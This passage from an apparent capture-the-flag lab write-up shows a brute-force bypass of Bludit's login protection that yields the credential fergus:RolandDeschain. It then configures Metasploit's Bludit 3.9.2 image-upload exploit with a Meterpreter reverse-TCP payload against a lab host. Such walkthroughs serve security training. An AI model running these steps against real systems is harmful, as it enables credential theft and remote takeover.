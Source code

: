 	[*] Bludit Auth BF Mitigation Bypass Script by ColdFusionX
	
	[◥] Brute Force: Testing -> fergus:the
	[▖] Brute Force: Testing -> fergus:Load
	[▆] Brute Force: Testing -> fergus:Plugins
	...
	[*] SUCCESS !!
	[+] Use Credential -> fergus:RolandDeschain
	```
	> Valid Credentials
	>-  `fergus:RolandDeschain`
	{: .prompt-info }
7. After login, we can confirm the version of `Bludit`
	![]({{ page.img_path }}Pasted%20image%2020230106220122.png)
	>`Bludit 3.9.2`
	{: .prompt-info }

## TCP/80 (HTTP) - Bludit 3.9.2 Directory Traversal + Image Upload Exec (Metasploit)
1. Launch `msfconsole`
2. Use `linux/http/bludit_upload_images_exec`
3. Set `OPTIONS`
	```
	msf6 exploit(linux/http/bludit_upload_images_exec) > set LHOST tun0
	LHOST => tun0
	msf6 exploit(linux/http/bludit_upload_images_exec) > set BLUDITPASS RolandDeschain
	BLUDITPASS => RolandDeschain
	msf6 exploit(linux/http/bludit_upload_images_exec) > set BLUDITUSER fergus
	BLUDITUSER => fergus
	msf6 exploit(linux/http/bludit_upload_images_exec) > set RHOSTS 10.10.10.191
	RHOSTS => 10.10.10.191
	msf6 exploit(linux/http/bludit_upload_images_exec) > set TARGETURI /
	TARGETURI => /
	
	msf6 exploit(linux/http/bludit_upload_images_exec) > show options
	
	Module options (exploit/linux/http/bludit_upload_images_exec):
	
	   Name        Current Setting  Required  Description
	   ----        ---------------  --------  -----------
	   BLUDITPASS  RolandDeschain   yes       The password for Bludit
	   BLUDITUSER  fergus           yes       The username for Bludit
	   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
	   RHOSTS      10.10.10.191     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
	   RPORT       80               yes       The target port (TCP)
	   SSL         false            no        Negotiate SSL/TLS for outgoing connections
	   TARGETURI   /                yes       The base path for Bludit
	   VHOST                        no        HTTP server virtual host
	
	
	Payload options (php/meterpreter/reverse_tcp):
	
